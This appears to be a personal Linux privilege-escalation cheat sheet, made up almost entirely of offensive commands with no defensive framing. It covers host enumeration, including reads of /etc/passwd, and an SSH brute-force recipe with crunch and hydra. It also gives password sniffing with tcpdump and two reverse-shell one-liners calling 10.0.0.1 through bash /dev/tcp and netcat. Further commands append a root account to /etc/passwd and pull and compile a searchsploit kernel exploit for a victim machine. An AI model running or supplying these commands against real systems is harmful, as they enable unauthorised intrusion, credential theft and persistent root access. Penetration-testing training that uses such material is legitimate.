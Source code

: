 # Linux Privilege Escalation

## Manual enumeration

Commands:
- `id`
- `cat /etc/passwd`
- `hostname`
- `cat /etc/issue`
- `cat /etc/os-realease`
- `uname -a`
- `ps aux`
- `ip a`
- `routel`
- `ss -anp`
- `cat /etc/iptables/rules.v4`
- `ls -lah /etc/cron*`
- `crontab -l`
- `sudo crontab -l`
- `dpkg -l`
- `find / -writable -type d 2> /dev/null`
- `cat /etc/fstab`
- `mount`
- `lsblk`
- `lsmod`
- `/sbin/modinfo some_kernel_module`
- `find / -perm -u=s -type f 2> /dev/null`

## Automated enumeration

```
/usr/bin/unix-privesc-check
```

## Brute force ssh

```
crunch 11 11 -t Password%%% > wordlist
hydra -l user -P wordlist $VictimIP -t 4 ssh -V
```

## Services

```
sudo tcpdump -i lo -A | grep "pass"
watch -n1 "ps auxww | grep pass | grep -v grep | fold -s
```

## Cron jobs

Source: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Passwd file

```
openssl passwd passwordtohash
echo "newadmin:somehaststring:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## SUID

Source: https://gtfobins.github.io/
```
find / -perm /6000 -exec ls -ld {} \; # setuid + setgid
grep Uid /proc/procnum/status
ls -asl /usr/bin/somebin
```

## Sudo

```
searchsploit -u
searchsploit "Linux kernel 4.4.0 privilege escalation"
cp /usr/share/exploitdb/exploits/linux/local/num.c .
gcc num.c
scp num.c victim@IP:
./a.out
```




